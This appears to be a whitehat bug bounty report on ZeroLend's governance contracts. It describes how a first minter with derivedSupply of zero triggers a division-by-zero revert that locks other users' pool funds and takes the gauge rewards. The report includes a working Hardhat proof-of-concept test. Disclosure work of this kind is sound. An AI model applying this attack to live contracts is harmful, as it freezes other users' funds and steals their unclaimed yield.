 Pool funds could be locked due to Division by zero
Submitted about 2 months ago by @ox7a69 (Whitehat) for Boost | ZeroLend

Whitehat Level


Advanced
Score
9
Accuracy
24% (16/66)
Rank
118th
Valid Smart Contract Reports
16
Report ID
#29052
Report type
Smart Contract
Has PoC?
Yes
Target
https://github.com/zerolend/governance

Impacts
Temporary freezing of funds for at least 1 hour
Theft of unclaimed yield
Details
Description
Vulnerability Details
Affected asset: governance-main/contracts/voter/gauge/GaugeIncentiveController.sol

The rewardPerToken() function in GaugeIncentiveController verifies totalSupply for zero, but utilizes derivedSupply for calculation of the rewardPerToken value. If derivedSupply equals zero, rewardPerToken() reverts due to division by zero.

https://github.com/zerolend/governance/blob/main/contracts/voter/gauge/GaugeIncentiveController.sol#L48

function rewardPerToken(
    IERC20 token
) public view override returns (uint256) {
    if (totalSupply == 0) return rewardPerTokenStored[token];

    // derivedSupply is used instead of totalSupply to modify for ve-BOOST
    return
        rewardPerTokenStored[token] +
        (((lastTimeRewardApplicable(token) - lastUpdateTime[token]) *
            rewardRate[token] *
            PRECISION) / derivedSupply);
}
The handleAction() function in GaugeIncentiveController serves as a callback for AToken to invoke upon changes in the user's balance (such as minting or burning). Within handleAction(), it initially triggers _updateReward(), which subsequently calls rewardPerToken().

https://github.com/zerolend/governance/blob/main/contracts/voter/gauge/GaugeIncentiveController.sol#L87
https://github.com/zerolend/governance/blob/main/contracts/voter/gauge/GaugeIncentiveController.sol#L109
https://github.com/zerolend/governance/blob/main/contracts/voter/gauge/GaugeIncentiveController.sol#L117
In scenarios where totalSupply is not equal to zero, and if derivedSupply does equal zero, any alterations in AToken (e.g., minting or burning) will result in a revert. This effectively locks the user's funds.

The value of derivedSupply is determined through governance-main/contracts/voter/eligibility/EligibilityCriteria.sol.

https://github.com/zerolend/governance/blob/main/contracts/voter/gauge/GaugeIncentiveController.sol#L68

function derivedBalance(address account) public view returns (uint256) {
    uint256 _balance = (balanceOf[account] *
        oracle.getAssetPrice(oracleAsset)) / 1e8;

    if (_balance == 0) return 0;

    uint256 multiplierE18 = eligibility.checkEligibility(account, _balance);
    return (_balance * multiplierE18) / 1e18;
}
For instance, to qualify, a user must mint AToken and stake over 5% of ZeroLend tokens. https://github.com/zerolend/governance/blob/main/contracts/voter/eligibility/EligibilityCriteria.sol#L50

In summary, an attacker could block other users' funds and receive rewards from the gauge by being the first to invoke handleAction() or updateUser().

The attack scenario is the following:

A pool is assigned a new gauge (gauge change occurs). At that point totalSupply and derivedSupply are 0.
The attacker becomes the first AToken minter after gauge change (or just calls updateUser(address who)).
Attacker doesn't stake 5% of ZeroLend, so totalSupply > 0, but derivedSupply == 0.
Subsequent AToken actions within the pool will trigger reverts.
Consequently, the attacker locks users' funds in the pool and earns rewards from the gauge as the sole staker.
Proof of concept
Proof of Concept
To run the Poc:

Put the code from below to the governance-main/test/Gauge.poc.2.ts file.
Generate random private key.
Modify governance-main/contracts/voter/eligibility/MockEligibilityCriteria.sol file so the checkEligibility() function returns 0 instead of 1e18.
Issue the following command:
WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Gauge.poc.2.ts --config hardhat.config.ts --network hardhat
PoC scenario:

Ant is the first who mints AToken in a pool with new Gauge.
Ant isn't eligible for reward, but it has AToken amount. So, totalSupply > 0, but derivedSupply == 0.
Whale aren't able to mint AToken due to division by zero panic.
import { expect } from "chai";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import {
  GaugeIncentiveController,
  OmnichainStaking,
  Pool,
  PoolVoter,
  StakingBonus,
  TestnetERC20,
  VestedZeroNFT,
  ZeroLend,
} from "../typechain-types";
import { e18 } from "./fixtures/utils";
import { deployVoters } from "./fixtures/voters";
import { ethers } from "hardhat";
import { time } from "@nomicfoundation/hardhat-network-helpers";

// Put inside governance-main/test/Gauge.poc.2.ts

// Change governance-main/contracts/voter/eligibility/MockEligibilityCriteria.sol
// to return 0 instead of 1e18 from checkEligibility()

// Run as:
// WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Gauge.poc.2.ts --config hardhat.config.ts --network hardhat

describe.only("Immunefi Boost", () => {
  let ant: SignerWithAddress;
  let deployer: SignerWithAddress;
  let now: number;
  let omniStaking: OmnichainStaking;
  let poolVoter: PoolVoter;
  let reserve: TestnetERC20;
  let stakingBonus: StakingBonus;
  let vest: VestedZeroNFT;
  let pool: Pool;
  let aTokenGauge: GaugeIncentiveController;
  let zero: ZeroLend;
  let owner: SignerWithAddress;
  let whale: SignerWithAddress;

  beforeEach(async () => {
    const deployment = await loadFixture(deployVoters);
    ant = deployment.ant;
    now = Math.floor(Date.now() / 1000);
    omniStaking = deployment.governance.omnichainStaking;
    poolVoter = deployment.poolVoter;
    reserve = deployment.lending.erc20;
    stakingBonus = deployment.governance.stakingBonus;
    vest = deployment.governance.vestedZeroNFT;
    zero = deployment.governance.zero;
    pool = deployment.lending.pool;
    aTokenGauge = deployment.aTokenGauge;
    owner = deployment.governance.lending.owner;
    deployer = deployment.governance.deployer;
    whale = deployment.governance.whale;

    // deployer should be able to mint a nft for another user
    await vest.mint(
      ant.address,
      e18 * 20n, // 20 ZERO linear vesting
      0, // 0 ZERO upfront
      1000, // linear duration - 1000 seconds
      0, // cliff duration - 0 seconds
      now + 1000, // unlock date
      true, // penalty -> false
      0
    );

    // stake nft on behalf of the ant
    await vest
      .connect(ant)
      ["safeTransferFrom(address,address,uint256)"](
        ant.address,
        stakingBonus.target,
        1
      );

    // there should now be some voting power for the user to play with
    // ant voting power is ~ 19 ether
    expect(await omniStaking.balanceOf(ant.address)).lessThan(e18 * 20n);
  });

  it("Ant blocks AToken usage and gets all reward in Gauge", async function () {
    let gaugeToken = await aTokenGauge.aToken();
    let atoken = await ethers.getContractAt("AToken", gaugeToken);

    // Mint 1 WETH to ant
    await reserve.connect(owner)["mint(address,uint256)"](ant.address, 1n * e18);
    expect(await reserve.balanceOf(ant.address)).eq(1n * e18);

    // Mint 100 WETH to whale
    await reserve.connect(owner)["mint(address,uint256)"](whale.address, 100n * e18);
    expect(await reserve.balanceOf(whale.address)).eq(100n * e18);
    
    // Distribute reward, 1000 ZeroLend
    await zero.connect(deployer).approve(aTokenGauge.target, 1000n * e18);
    await aTokenGauge.connect(deployer).notifyRewardAmount(zero.target, 1000n * e18);

    // + 1 Hour
    await time.increase(3600);

    // Mint AToken from WETH for ant
    await reserve.connect(ant).approve(pool.target, 1n * e18);
    await pool.connect(ant).supply(reserve.target, 1n * e18, ant.address, 0n);
    expect(await atoken.balanceOf(ant.address)).greaterThan(0);

    // Mint AToken from WETH for whale ...
    // But it reverts due to division by 0
    // https://github.com/zerolend/governance/blob/main/contracts/voter/gauge/GaugeIncentiveController.sol#L48
    await reserve.connect(whale).approve(pool.target, 100n * e18);
    await expect(
      pool.connect(whale).supply(reserve.target, 100n * e18, whale.address, 0n)
    ).to.be.revertedWithPanic(0x12); // division by zero panic
  });
});
